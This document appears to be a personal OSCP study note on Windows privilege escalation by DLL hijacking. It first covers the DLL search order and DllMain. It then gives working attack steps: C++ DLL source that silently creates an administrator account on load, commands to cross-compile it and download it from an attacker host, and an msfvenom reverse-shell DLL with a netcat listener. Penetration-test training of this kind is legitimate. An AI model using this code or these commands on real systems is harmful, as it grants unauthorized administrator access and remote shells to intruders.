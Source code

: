 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/8-windows-privilege-escalation/6-dll-hijacking/","updated":"2024-01-05T11:35:08.406+01:00"}
---
```


- Dynamic Link Libraries (DLLs) provide functionality to programs or the OS.
- They are a way for developers to use and integrate already existing functionality without reinventing the wheel.
- On Unix they are comparable to Shared Objects.
- DLLs can be abused in multiple ways for privilege escalation.
	- One way is to replace the .DLL in the same way as for service hijacking.
	- Another method is called "DLL Search Order"

DLL Search Order:
- The search order determines the order of DLLs to inspecting when searching for them. By default Safe DLL Search Mode is enabled, which makes it more difficult.
- Microsoft's standard search order:
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```
- When safe mode is disabled the current directory is at position 2 after application's directory.
- List search order using:
```powershell
$env:path  
```

One-liner to list all paths and the permissions for them (GPT):
```powershell
$env:path -split ";" | ForEach-Object { "$_"; (icacls.exe $_) | Select-String -Pattern ":\s*\([^)]+\)" }
```

Inner workings of DLLs:
- Each DLL can have an optional entry point funtion named "DllMain", which is executed when processes or threads attach the DLL.
- DllMain generally contains four cases named:
	- _DLL_PROCESS_ATTACH_
	- _DLL_THREAD_ATTACH_
	- _DLL_THREAD_DETACH_
	- _DLL_PROCESS_DETACH_
- The four cases handle situations where the DLL is loaded or unloaded by a process or thread.
- They are commonly used to perform starting or quitting tasks.
- If the DLL does not include DllMain it only provides resources.
- Example of a basic DLL in C++ containing these cases:
```c++
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
-------------

### DLL Search Order Hijacking:
1. Start procmon or other to review services and their DLLs. (Procmon has to be run as administrator on the target machine, otherwise the binary has to be copied and analysed locally)
2. Find a DLL which is missing.
3. Create a DLL in the form of a '.cpp'-file on your Kali. Example of new admin user:
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user zombie password123! /add");
  	    i = system ("net localgroup administrators zombie /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
4. Cross-compile the DLL with mingw:
```bash
x86_64-w64-mingw32-gcc <dllname>.cpp --shared -o <dllname>.dll
```
5. Serve the DLL and download it.
```powershell
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll
```
6. Move the DLL to the optimal position in the search order path using 'move'.
7. Restart the service loading the DLL:
```powershell
Restart-Service <servicename>
```
8. Win!

### DLL Reverse Shell with MSF:
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.226 LPORT=443 -a x64 --platform Windows -f dll -o EnterpriseServiceOptional.dll

nc -lvnp 443

iwr -uri http://192.168.45.226:8001/EnterpriseServiceOptional.dll -Outfile EnterpriseServiceOptional.dll

RestartService EnterpriseService
```

